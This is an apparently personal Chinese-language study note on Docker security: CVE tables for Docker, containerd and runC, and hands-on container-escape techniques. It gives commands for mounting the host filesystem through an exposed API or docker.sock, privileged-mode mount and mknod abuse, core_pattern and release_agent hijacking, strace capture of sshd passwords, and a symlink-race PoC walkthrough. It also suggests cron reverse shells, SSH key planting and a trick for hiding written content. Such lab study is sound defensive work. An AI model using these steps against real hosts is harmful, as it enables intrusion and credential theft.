


一、Docker安全概述
Docker 自身是基于 Linux 的多种 Namespace 实现的，其中有一个很重要的 Namespace 叫作 User Namespace，User Namespace 主要是用来做容器内用户和主机的用户隔离的。在过去容器里的 root 用户就是主机上的 root 用户，如果容器受到攻击，或者容器本身含有恶意程序，在容器内就可以直接获取到主机 root 权限。Docker 从 1.10 版本开始，使用 User Namespace 做用户隔离，实现了容器中的 root 用户映射到主机上的非 root 用户，从而大大减轻了容器被突破的风险。
在生产环境中，建议每个容器都添加相应的资源限制。下面给出一些执行docker run命令启动容器时可以传递的资源限制参数：
1 | --cpus 限制 CPU 配额 |
例如我想要启动一个 1 核 2G 的容器，并且限制在容器内最多只能创建 1000 个 PID，启动命令如下：
1 | $ docker run -it --cpus=1 -m=2048m --pids-limit=1000 busybox sh |
推荐在生产环境中限制 CPU、内存、PID 等资源，这样即便应用程序有漏洞，也不会导致主机的资源完全耗尽，最大限度降低安全风险。
安全容器：Kata

历史漏洞（部分，已公开的）：https://docs.docker.com/engine/security/non-events/
十三、安全
弱隔离性：
文件系统隔离
Docker中隔离文件功能的实现是基于Mount命名空间的
如果容器具有root权限，执行
chmod a+s {bin}，运行程序的用户获得主机的root权限进程和通信隔离
Docker使用PID命名空间来隔离进程PID
设备管理和主机资源约束
Docker容器中域名和主机名的隔离是通过UTS命名空间实现的，使用cgroup限制资源
网络隔离和镜像传输
Docker中的NET命名空间负责隔离网络资源
13.-1 判断容器环境
- 检查根目录下是否有
.dockerenv文件 - 检查进程表是否“过于简洁”：
ps -aux - 查看1号进程是否为
init、systemd等常见的系统初始化进程 - 终端下
echo $$，看看是不是“1” - 检查1号进程的cgroup信息是否有“docker”字眼：
cat /proc/1/cgroup==前提是使用的cgroup v1== - 查看环境变量是否有“docker”字眼：
env - 查看已挂载的文件系统，是否有overlay、overlay2、aufs这种容器常用的联合挂载文件系统：
mount
13.0 漏洞整理
范围：CVEdetails.com
- Docker: https://www.cvedetails.com/vulnerability-list/vendor_id-13534/product_id-28125/Docker-Docker.html
- containerd: https://www.cvedetails.com/vulnerability-list/vendor_id-11448/product_id-81142/Linuxfoundation-Containerd.html
- runC: https://www.cvedetails.com/vulnerability-list/vendor_id-11448/product_id-60655/Linuxfoundation-Runc.html
截至2024.03.28
13.0.1 汇总
| 软件 | CVE数 | 有关隔离性的CVE数 |
|---|---|---|
| Docker | 37 | 15 |
| containerd | 11 | 8 |
| runC | 12 | 10 |
详情：
Docker
CVE-2021-21284
CVE-2020-14300（只影响红帽Linux上特定版本的Docker）
CVE-2020-14298（只影响红帽Linux上特定版本的Docker）
CVE-2019-5736（runC逃逸）
CVE-2019-16884
CVE-2019-14271（Docker cp命令漏洞）
CVE-2018-15664（Docker cp命令漏洞，TOCTOU）
CVE-2018-10892
CVE-2016-9962
CVE-2016-8867
CVE-2016-3697
CVE-2015-3631
CVE-2015-3630
CVE-2015-3627
CVE-2014-9356
containerd
CVE-2023-25173
CVE-2022-31030
CVE-2022-23648
CVE-2022-23471
CVE-2021-43816
CVE-2021-41103
CVE-2021-21334
CVE-2020-15257
runC
CVE-2024-21626
CVE-2023-28642
CVE-2023-27561
CVE-2023-25809
CVE-2022-24769
CVE-2021-30465
CVE-2019-19921
CVE-2019-16884
CVE-2019-5736
CVE-2016-3697
13.0.2 知名度相对较高的CVE
| CVE编号 | 类型 | 影响版本 | 利用条件 |
|---|---|---|---|
| CVE-2016-3697 | 提权 | runC <= 0.0.9 Docker < 1.11.2 |
|
| CVE-2016-8867 | 文件越权访问-runC | Docker == 1.12.2 | |
| CVE-2016-9962 | 逃逸-runC | 1.11.0 <= Docker < 1.12.6 | |
| CVE-2018-10892 | 越权-操作宿主机硬件 | 1.11 <= Docker <= 18.03.1 | |
| CVE-2018-15664 | 任意文件读写-cp命令 | Docker 17.06.0-ce～17.12.1-ce:rc2 Docker 18.01.0-ce～18.06.1-ce:rc2 |
TOCTOU |
| CVE-2019-5736 | 逃逸-runC | Docker <= 18.09.2 runC <= 1.0-rc6 |
攻击者具有容器文件上传权限&& 管理员使用exec访问容器|| 攻击者具有启动容器权限 |
| CVE-2019-14271 | 逃逸-cp命令 | Docker == 19.03.0 && < 19.03.1 | |
| CVE-2019-16884 | 绕过docker-default规则-runC | Docker <= 19.03.2 runC <= 1.0.0-rc8 |
|
| CVE-2019-19921 | 提权-runC | runC <= 0.1.1 | |
| CVE-2020-15257 | 逃逸-containerd | containerd < 1.4.3 containerd < 1.3.9 |
使用hostnetwork网络模式启动容器&& 使用root用户(UID:0)启动容器 |
| CVE-2021-21284 | 提权-宿主机文件遍历 | Docker < 19.03.15 20.0.0 < Docker < 20.10.3 |
|
| CVE-2021-21334 | 越权-containerd | containerd < 1.3.10 1.4.0 <= containerd < 1.4.4 |
|
| CVE-2021-30465 | 逃逸-runC竞争条件 | runC <= 1.0.0-rc94 | 存在K8S这种容器编排工具 攻击者拥有恶意容器 |
| CVE-2021-41103 | 越权-containerd | containerd < 1.4.11 1.5.0 <= containerd < 1.5.7 |
|
| CVE-2021-43816 | 越权-containerd | 1.5.1 <= containerd < 1.5.9 | |
| CVE-2022-0492 | 逃逸-cgroup | kernel < 5.17 rc3 | 容器以root身份运行 容器启用SYS_ADMIN AppArmor与SELinux被禁用（或特定情况） Seccomp被禁用（或特定情况） cgroup v1 |
| CVE-2022-23471 | 资源隔离失效-containerd | containerd < 1.5.16 1.6.0 <= containerd < 1.6.12 |
|
| CVE-2022-23648 | 任意文件读取-containerd | containerd <= 1.4.12, 1.5.0 - 1.5.9, == 1.6.0 | k8s/crictl + containerd Docker + containerd不受影响 |
| CVE-2022-24769 | Cap提权-containerd | Docker < 20.10.14 containerd < 1.5.11, < 1.6.2 runC < 1.1.2 |
|
| CVE-2022-31030 | 资源隔离失效-containerd | containerd < 1.5.13 1.6.0 <= containerd < 1.6.6 |
|
| CVE-2023-25173 | 越权-containerd | containerd < 1.5.18 1.6.0 <= containerd < 1.6.18 |
|
| CVE-2023-25809 | 越权-runC | runC < 1.1.5 | |
| CVE-2023-27561 | 提权-runC | 1.0.0-rc95 <= runC < 1.1.5 | |
| CVE-2023-28642 | 越权-runC | runC < 1.1.5 | |
| CVE-2024-21626 | 逃逸-runC | 1.0.0-rc93 <= runC <= 1.1.11 || (1.4.7 <= containerd <= 1.6.27 || == 1.7.12) || Dcoker < 25.0.2 |
13.0.3 论文用作测试或提及的CVE

- CVE-2016-0728：内核提权漏洞
- CVE-2016-5195：DirtyCow
- CVE-2017-5123：内核漏洞，提权
- CVE-2017-7533：安卓的内核漏洞？
- CVE-2018-18281：内核漏洞，竞争条件
- CVE-2019-11487：内核漏洞，UAF

Docker/runC/containerd的都收录在13.0.2节的表格
13.1 配置不当引起的逃逸
Docker默认的AppArmor配置禁止容器执行mount系统调用
13.1.1 Docker remote api未授权访问
环境：
- Ubuntu: 22.04
- kernel: 6.5.0-21-generic
- Docker: 25.0.3
- containerd: 1.6.28
- runC: 1.1.12
- docker-init: 0.19.0
Docker remote api可以执行docker命令，可直接调用API来操作Docker
这个版本的Docker，默认是没有开启远程管API功能的，需要手动开启一下
使用docker swarm这种单机容器编排工具时，会默认绑定到0.0.0.0:2375
方法一：修改docker.service配置==会导致Docker服务重启，仅本地测试使用，不要在生产环境使用==
1 | # 查看docker的systemd配置文件位置，得到/lib/systemd/system/docker.service |
配置文件添加：

重新启动dockerd：sudo systemctl restart docker.service
测试接口：curl http://127.0.0.1:2375/containers/json（没有容器运行的话，只会返回“[]”）
方法二：启用live-restore配置==没能成功，以后看看==
能够远程访问Docker API之后，就可以把宿主机文件系统挂载到容器内部：
sudo docker -H tcp://127.0.0.1:2375 run -it --rm -v /:/mnt ubuntu /bin/bash
之后可以：
- 写入反弹shell到定时任务
- 写入root的ssh密钥
- 等
启用远程API访问的时候，执行
docker info最后会回显：

这种使用REST API自Docker 0.5.2之后就被默认关掉了，取而代之的是一个UNIX socket ——
docker.sock（默认位置是“/var/run/docker.sock”）来用于客户端和dockerd之间的通信，可以在上面使用传统的UNIX权限检查来执行访问控制
==这是一种关于dockerd的攻击面==
13.1.2 docker.sock挂载到容器内部
根据上一节所述，其实就是把宿主机上的/var/run/docker.sock挂载到了恶意容器内部，然后在容器内也通过这个套接字对dockerd进行操作，从而影响宿主机，因此得出利用条件：
- 攻击者掌控恶意容器
- 恶意容器内存在宿主机上的docker.sock
- 恶意容器内存在可用的Docker客户端（挂载宿主机的，或者apt再装一个）
==感觉很离谱==
在容器内寻找有没有docker.sock：find / -name docker.sock
sudo docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock -v /usr/bin/docker:/usr/bin/docker ubuntu /bin/bash
之后就可以通过创建新的容器，把宿主机文件系统挂载到新容器中，从而操作宿主机：
docker -H unix:///var/run/docker.sock run -it -v /:/test ubuntu /bin/bash
也可以直接通过挂载进恶意容器的
docker程序，进行操作：docker run -it -v /:/test ubuntu /bin/bash主角是
docker.sock文件，不能只挂载docker程序而不挂载docker.sock文件
==有个关于fd://的解释==
13.1.3 配置–privileged启动容器
环境：
- Ubuntu: 22.04
- kernel: 6.5.0-21-generic
- Docker: 25.0.3
- containerd: 1.6.28
- runC: 1.1.12
- docker-init: 0.19.0
特权容器：sudo docker run -it --rm --privileged --name pri_test ubuntu /bin/bash
非特权容器：sudo docker run -it --rm --name test ubuntu /bin/bash
容器内查看capabilities：cat /proc/1/status | grep Cap
1 | # 下面是特权容器的capabilities |
接下来可以干的事情：
- 挂载rootfs
- 写入定时任务
- Mknod
挂载rootfs逃逸
容器内执行fdisk -l
这里无论是特权还是非特权容器都会显示”bash: fdisk: command not found”
而且容器内在/usr/sbin下也找不到fdisk这个程序
但是可以执行df -h查看挂载：
1 | # 特权容器 |
==就当隐约猜出/dev/vda3是宿主机磁盘了吧==
依次执行：
mkdir testmount /dev/vda3 /test
非特权容器执行结果：“mount: /test: permission denied.”
特权容器执行结果：把宿主机的文件系统挂载到了/test下，创建的文件是root权限
==特权容器给予访问宿主机所有设备的权限，可能还有seccomp、Apprmor等策略限制解除什么的==
mknod创建特殊文件逃逸
倘若知道宿主机在操作系统中的主次设备号，则可以尝试使用该命令创建指向宿主机的一个block文件，而后利用
debugfs命令访问该文件，从而达到操控宿主机文件的效果
在Docker容器中，
/etc/hostname、/etc/resolv.conf、/etc/hosts通常是从宿主机中挂载而来，我们可以通过查看容器的挂载信息来获知宿主机的主次设备号
容器内查看宿主机主次设备号：cat /proc/1/mountinfo | grep /etc/
1 | # 特权/非特权容器的执行结果都是一样的 |
上面的“253:3”就是主次设备号
创建/dev/vda3的block设备文件：mknod newnod b 253 3（特权/非特权容器都可以执行成功）
最后使用debugfs操作设备：debugfs -w newnod
1 | # 特权容器操作成功 |
之后特权容器可以对宿主机文件系统任意读写
mknod命令需要CAP_MKNODcapbility
获取到主机文件系统之后的渗透动作：
- 往
/etc/crontab写入定时任务（要考虑是不是systemd接管了定时任务） - 或者往
/root/.ssh/authorized_keys下写入ssh密钥
上面这俩是安防软件的重点监控对象，操作需谨慎
原理
Link:
- https://docs.docker.com/reference/cli/docker/container/run/#privileged
- https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
--privileged标志会对容器启用以下功能：
- 启用Linux内核的所有capabilities
- 禁用默认的seccomp配置文件
- 禁用默认的AppArmor配置文件
- 禁用SELinux进程标签
- 赋予访问所有宿主机设备的权限
- 允许
/sys读写 - 允许
cgroups挂载读写
通过这个标志，容器基本上可以做到宿主机的所有行为
Docker容器默认添加有以下capabilities（可通过--cap-drop去除）：
| Capability Key | Capability Description |
|---|---|
| AUDIT_WRITE | Write records to kernel auditing log. |
| CHOWN | Make arbitrary changes to file UIDs and GIDs (see chown(2)). |
| DAC_OVERRIDE | Bypass file read, write, and execute permission checks. |
| FOWNER | Bypass permission checks on operations that normally require the file system UID of the process to match the UID of the file. |
| FSETID | Don’t clear set-user-ID and set-group-ID permission bits when a file is modified. |
| KILL | Bypass permission checks for sending signals. |
| MKNOD | Create special files using mknod(2). |
| NET_BIND_SERVICE | Bind a socket to internet domain privileged ports (port numbers less than 1024). |
| NET_RAW | Use RAW and PACKET sockets. |
| SETFCAP | Set file capabilities. |
| SETGID | Make arbitrary manipulations of process GIDs and supplementary GID list. |
| SETPCAP | Modify process capabilities. |
| SETUID | Make arbitrary manipulations of process UIDs. |
| SYS_CHROOT | Use chroot(2), change root directory. |
Docker容器默认没有下面的capabilities（可通过--cap-add添加）：
| Capability Key | Capability Description |
|---|---|
| AUDIT_CONTROL | Enable and disable kernel auditing; change auditing filter rules; retrieve auditing status and filtering rules. |
| AUDIT_READ | Allow reading the audit log via multicast netlink socket. |
| BLOCK_SUSPEND | Allow preventing system suspends. |
| BPF | Allow creating BPF maps, loading BPF Type Format (BTF) data, retrieve JITed code of BPF programs, and more. |
| CHECKPOINT_RESTORE | Allow checkpoint/restore related operations. Introduced in kernel 5.9. |
| DAC_READ_SEARCH | Bypass file read permission checks and directory read and execute permission checks. |
| IPC_LOCK | Lock memory (mlock(2), mlockall(2), mmap(2), shmctl(2)). |
| IPC_OWNER | Bypass permission checks for operations on System V IPC objects. |
| LEASE | Establish leases on arbitrary files (see fcntl(2)). |
| LINUX_IMMUTABLE | Set the FS_APPEND_FL and FS_IMMUTABLE_FL i-node flags. |
| MAC_ADMIN | Allow MAC configuration or state changes. Implemented for the Smack LSM. |
| MAC_OVERRIDE | Override Mandatory Access Control (MAC). Implemented for the Smack Linux Security Module (LSM). |
| NET_ADMIN | Perform various network-related operations. |
| NET_BROADCAST | Make socket broadcasts, and listen to multicasts. |
| PERFMON | Allow system performance and observability privileged operations using perf_events, i915_perf and other kernel subsystems |
| SYS_ADMIN | Perform a range of system administration operations. |
| SYS_BOOT | Use reboot(2) and kexec_load(2), reboot and load a new kernel for later execution. |
| SYS_MODULE | Load and unload kernel modules. |
| SYS_NICE | Raise process nice value (nice(2), setpriority(2)) and change the nice value for arbitrary processes. |
| SYS_PACCT | Use acct(2), switch process accounting on or off. |
| SYS_PTRACE | Trace arbitrary processes using ptrace(2). |
| SYS_RAWIO | Perform I/O port operations (iopl(2) and ioperm(2)). |
| SYS_RESOURCE | Override resource Limits. |
| SYS_TIME | Set system clock (settimeofday(2), stime(2), adjtimex(2)); set real-time (hardware) clock. |
| SYS_TTY_CONFIG | Use vhangup(2); employ various privileged ioctl(2) operations on virtual terminals. |
| SYSLOG | Perform privileged syslog(2) operations. |
| WAKE_ALARM | Trigger something that will wake up the system. |
- 添加/去除这些capabilities时，添不添加
CAP_前缀都一样 - 默认额的seccomp配置文件会自动适应所选择的capabilities
13.1.4 挂载特殊文件系统: /proc
宿主机proc文件系统被挂载到了容器中，存在一个/proc/sys/kernel/core_pattern可以用于容器逃逸
在Linux中，当进程崩溃时，系统内核将捕获进程崩溃信号并记录在（和二进制程序同一个文件夹下的）“core”文件中
“core”文件的默认名称的相关配置可以通过
/proc/sys/kernel/core_pattern这个文件指定man core(5): https://man7.org/linux/man-pages/man5/core.5.html
==关键词：coredump==
“core_pattern”文件的特点：当“core_pattern”的第一个字符为管道符|时，它会以root用户权限执行管道符后指定的文件
在容器内寻找有没有core_pattern：find / -name core_pattern
core_pattern原来的样子：
1 | ebpf@ebpf-workplace-VM:~$ cat /proc/sys/kernel/core_pattern |
故当宿主机的/proc目录被挂载进容器时，可以通过修改该文件，达到触发coredump时宿主机执行一个bash脚本的效果
挂载宿主机proc文件系统，并启动一个容器：sudo docker run -it -v /proc:/tmp/proc ubuntu /bin/bash
在容器找出本容器的diff文件夹在宿主机中的位置==目的是得知bash脚本的绝对路径==：
1 | sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab |
结果：
1 | /var/lib/docker/overlay2/21dcb5a69ac6f5f39c5a10fd15878a5ad5abdfb7dc24ff2950638db33e213fd6/diff |
/etc/mtab这个文件最后指向容器进程自己的mount信息（/proc/self/mounts），目的是找出本容器的diff文件夹的位置
当对容器文件进行更改时，会生成在宿主机对应的diff文件夹下生成对应的文件 -> 在容器中创建一个bash脚本 -> 宿主机对应diff文件夹下生成对应的bash脚本 -> bash脚本路径可知 -> 写到/proc/sys/kernel/core_pattern的管道符后 -> 在容器内触发coredump -> 宿主机执行创建的bash脚本
实操
在容器创建个bash（==在容器根目录下比较方便？==）：
1 | root@ada2816a9b96:/# cat <<EOF>/my_bash |
到宿主机确认bash脚本已创建：
sudo cat /var/lib/docker/overlay2/21dcb5a69ac6f5f39c5a10fd15878a5ad5abdfb7dc24ff2950638db33e213fd6/diff/my_bash
之后在容器中把bash脚本在宿主机的绝对路径写入core_pattern的管道符后面：
1 | root@ada2816a9b96:/# echo "|/var/lib/docker/overlay2/21dcb5a69ac6f5f39c5a10fd15878a5ad5abdfb7dc24ff2950638db33e213fd6/diff/my_bash">/tmp/proc/sys/kernel/core_pattern |
一个隐藏写入内容的做法：在脚本名后面添加
\r与N多个空格（要能覆盖掉写入内容的长度，echo一定要加-e启用转义）输入内容里存在
\r，它意为将光标移至行首但不换行，在\r后每添加一个字符都会将行首的一个字符在显示上进行覆盖，但其实际内容不变，这可以达到隐藏内容的效果
2
3
4
5
6
ebpf@ebpf-workplace-VM:~$ cat hidehide
ebpf@ebpf-workplace-VM:~$ nano hidehide
# 最后用编辑器打开hidehide，是可以发现存在内容的
在容器内触发段错误：随便写一个指针错误的程序：
1 |
|
容器中不一定可以编译，可以通过在服务器上编译好再传进去
我是直接通过宿主机在diff文件中编译
容器通过段错误触发coredump：
1 | root@ada2816a9b96:/# ./sgm |
Linux内核执行core_pattern文件指定的行为，这里被挂载了宿主机proc文件系统的容器修改成了执行它的bash
检查bash执行结果，成功：
1 | root@ebpf-workplace-VM:~# ll |
13.1.5 挂载特殊文件系统：/root
sudo docker run -it -v /root:/tmp/root ubuntu /bin/bash
无他，宿主机root文件夹都给了，直接在容器内向/tmp/root/.ssh/authorized_keys写入攻击者的ssh密钥
13.1.6 添加特殊CAP：CAP_SYS_PTRACE
抓取sshd帐号密码
这种方法需要知道宿主机sshd进程号，因此需要容器与宿主机共用进程命名空间（
docker run --pid=host）
在容器内利用strace、ptrace等工具抓取宿主机sshd密码：
1 | # 启用数据捕获，之后 ctrl+C 停止 |
若服务器管理员在数据捕获期间通过ssh登陆，则可以抓取到明文密码==未验证==
容器内不一定支持
strace命令
- 如可以，
apt手动安装- 自行静态编译一个strace上传
进程注入
通过ptrace系统调用以进程注入的形式来实现容器逃逸
具体是利用工具，将恶意elf注入到进程中：
- 注入器：https://github.com/dismantl/linux-injector
- 恶意elf使用msf的马
理论上，使用
ptrace系统调用的进程注入行为都可以
剩下略
13.1.7 添加特殊CAP：CAP_SYS_ADMIN
sudo docker run --cap-add=SYS_ADMIN --security-opt apparmor=unconfined --rm -it ubuntu /bin/bash
notify_on_release
==下面这些内容针对的是cgroup v1的版本==
前提：
- 以root用户身份在容器内运行
- 添加了
CAP_SYS_ADMINLinux capability - 没有AppArmor限制
- cgroup v1文件系统以读写方式安装在容器中
子系统的cgroup.procs中指明了应用这个子系统的pid
cgroup中有一个特殊机制notify_on_release：在cgroup下的子系统中都有着一个notify_on_release文件，当里面的值为1时，若该子系统中的所有进程都退出时，内核将会以root权限执行子系统中release_agent文件指定路径的文件
如果将宿主机的
cgroup挂载进容器，再修改notify_on_release与release_agent的值，即可达到容器逃逸的效果
所以一般步骤就是：
- 挂载宿主机的
cgroup文件系统到容器中 - 创建一个新的
cgroup子系统 - 修改
notify_on_release，置1 - 容器中创建bash脚本，通过13.1.4的方法得到在宿主机中的绝对位置
- 绝对位置写入
release_agent - 写入一个待会就会退出的进程PID号（可以用
$$，当前shell）到cgroup.procs - 退出写入的PID进程
- 之后内核就会以root权限执行目标bash脚本
==未验证==
关于v2的release_agent机制：
v2版本的
cgroup删去了notify_on_release以及release_agent这两个文件，改用cgroup.events文件发出子系统的状态变化信号。cgroup.events是一个只读文件==不能直接通过echo等方式写入==。
cgroup.events文件有两个字段：
- populated: 1表示该子系统还有进程
- frozen: 1表示该子系统及其子子被冻结
可以通过类似于inotify(7)这样的API进行监控（发出
IN_MODIFY事件），或通过poll(2)这样的系统调用进行发出通知（返回字段revents中的POLLPRI和POLLERR位）
13.1.8 添加特殊CAP：CAP_SYS_MODULE
该权限允许容器在内核中加载内核.ko库文件，可通过加载恶意.ko库逃逸容器
- 在容器中编译可能缺少编译环境
- 可以在外部服务器编译好再传进去
13.2 容器相关组件CVE
13.2.0 关注的CVE列表
| 编号 | kernel版本 | runC版本 | containerd版本 | Docker版本 |
|---|---|---|---|---|
| CVE-2018-15664 | [17.06.0-ce, 17.12.1-ce:rc2] [18.01.0-ce, 18.06.1-ce:rc2] |
|||
| CVE-2019-5736 | (, 1.0.0-rc6] | (, 18.09.2] | ||
| CVE-2019-14271 | [19.03.0, 19.03.1) | |||
| CVE-2019-16884 | (, 1.0.0-rc8] | (, 19.03.2] | ||
| (, 1.3.9) [1.4.0, 1.4.3) |
||||
| CVE-2021-30465 | (, 1.0.0-rc94] | |||
| CVE-2022-0492 | (, 5.17-rc3) | |||
| (, 1.4.13) [1.5.0, 1.5.10) [1.6.0, 1.6.1) |
||||
| CVE-2024-21626 | [1.0.0-rc93, 1.1.11] | [1.4.7, 1.6.27] [1.7.12, 1.7.12] |
(, 25.0.2) |
拟搭建的环境：
环境1：除CVE-2019-14271和CVE-2024-21626之外的所有CVE
kernel: (, 5.17-rc3) - 5.15.0-102-generic
runC: (, 1.0.0-rc6]
containerd: (, 1.3.9)
Docker: [18.01.0-ce, 18.06.1-ce:rc2]
环境2：CVE-2019-14271
kernel: -
runC: -
containerd: -
Docker: [19.03.0, 19.03.1)
环境3：CVE-2024-21626
- kernel: -
- runC: [1.0.0-rc93, 1.1.11]
- containerd: [1.7.12, 1.7.12]
- Docker: (, 25.0.2)
已搭建环境：
- 环境1（支持基于
libbpf的eBPF开发环境）- kernel: 5.15.0-102-generic
- runC: 1.0.0-rc5
- containerd: 1.0.3
- Docker: 18.03.1-ce
==最后环境以虚拟机快照为准==
一个做了很多实验和收集了POC的Git：
13.2.1 Shocker攻击
从Docker容器逃逸并读取到主机某个目录的文件内容。Shocker攻击的关键是执行了系统调用open_by_handle_at函数，Linux手册中特别提到调用open_by_handle_at函数需要具备CAP_DAC_READ_SEARCH能力，而Docker1.0版本对Capability使用黑名单管理策略，并且没有限制CAP_DAC_READ_SEARCH能力，因而引发了容器逃逸的风险。
需要Docker版本 < 1.0 ==？==
下面这些列出来的都是有Git POC或者博客解析的
13.2.1 CVE-2018-15664 - TOCTTOU
Blog:
- https://cloud.tencent.com/developer/article/2098610
- https://segmentfault.com/a/1190000044032624
- https://zhuanlan.zhihu.com/p/443811755
POC:
背景
docker cp命令：用于在容器和宿主机文件系统间进行文件或目录复制
docker cp container_id:file_path_in_container host_path
符号链接：Linux系统中的一种文件，它指向系统中的另一个文件或目录
TOCTTOU、竞争条件（race condition）
FollowSymlinkInScope()函数，作用是解析容器中运行进程的文件路径，比如docker cp命令
攻击者可以利用解析校验完成后和操作执行间的空隙修改cp文件为一个符号链接对应的目标文件
理论上该攻击者可能会以root身份访问到host上或其他容器内的任意文件
原理
Docker会将docker cp进行文件复制的行为分为先后两个部分：路径检查和命令解析。当用户执行docker cp命令后，Docker守护进程收到这个请求，首先会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则先在容器内部将其解析成路径字符串，之后再进行命令的解析
如果在Docker守护进程检查复制路径时，攻击者可以利用中间的间隙，先在这里放置一个非符号链接的常规文件或目录，检查结束后，攻击者赶在Docker守护进程使用这个路径之前将其替换为一个符号链接，那么这个符号链接就会于被打开时在宿主机上解析，从而导致目录穿越
复现
环境：Docker 18.03.1
POC内容：
1 | ./ |
Dockerfile: 构造恶意容器
1 | # Build the binary. |
构筑一个容器：
- 在容器内编译symlink_swap.c为
symlink_swap二进制文件，放到容器根目录下 - 在容器根目录下创建了一个flag性质的文件
w00t_w00t_im_a_flag，内容为“FAILED – INSIDE CONTAINER PATH” - 容器启动后执行的入口点为
/symlink_swap
symlink_swap.c: 运行在恶意容器内部的恶意程序
1 |
|
这个程序主要做的事：
- 在容器内创建一个名为传入参数（“/totally_safe_path”）符号链接，指向容器的系统根目录（“/”）
- 不断地交换符号链接与一个正常目录（“/totally_safe_path-stashed”）的名字
run_read.sh: 模拟docker cp将容器内文件复制到宿主机上场景，一旦触发，容器内恶意符号链接在宿主机文件系统解析后指向的文件将被复制到受害者设定的宿主机目录下
1 |
|
run_write.sh: 模拟宿主机cp到容器内的场景，触发漏洞，指定的宿主机文件将覆盖容器内恶意符号链接在宿主机文件系统解析后指向的文件
1 |
|
最后的循环，是一直重复将本地的localpath（内容为“SUCCESS”）复制为容器的/totally_safe_path/w00t_w00t_im_a_flag
由于容器中的symlink_swap程序一直在运行，一直在重复将“/totally_safe_path”和“/totally_safe_path-stashed”轮流替换为指向系统根目录的符号链接，这样一来，宿主机执行docker cp时，首先检查到“/totally_safe_path”是一个正常目录，但是后面执行复制操作时“/totally_safe_path”却变成了一个符号链接，那么Docker将在宿主机上解析这个符号链接==就是到用的时候没有再次进行容器内的路径解析，直接用了，变成了宿主机上的路径==
如果漏洞触发，容器内的符号链接 /totally_safe_path 将在宿主机文件系统上解析，因此
docker cp实际上是将 localpath 文件复制到了宿主机上的 /w00t_w00t_im_a_flag 文件位置。也就是说，此时宿主机上 /w00t_w00t_im_a_flag 内容将被改写为：“SUCCESS – HOST FILE CHANGED”
对于 CVE-2018-15664 来说，当用户执行
docker cp命令后，Docker 守护进程收到这个请求，就会对用户给出的复制路径进行检查。如果路径中容器内部的符号链接，则先在容器内部将其解析成路径字符串（Docker的FollowSymlinkInScope()函数），留待后用==问题就出在这个“留留待后用”而不是立即使用，引入了竞争条件的空间==。一眼看上去，该流程似乎正常，但要考虑到容器内部的环境是不可控的。如果在 Docker 守护进程使用这个路径前将其替换为一个符号链接，那么这个符号链接就会于被打开的主机上解析，从而导致目录穿越。
关于FollowSymlinkInScope()函数的执行流程上下文，可以看看这个：https://segmentfault.com/a/1190000044032624
13.2.2 CVE-2019-5736 - runC进程替换
Blog:
- https://x3fwy.bitcron.com/post/runc-malicious-container-escape（分析了修复补丁）
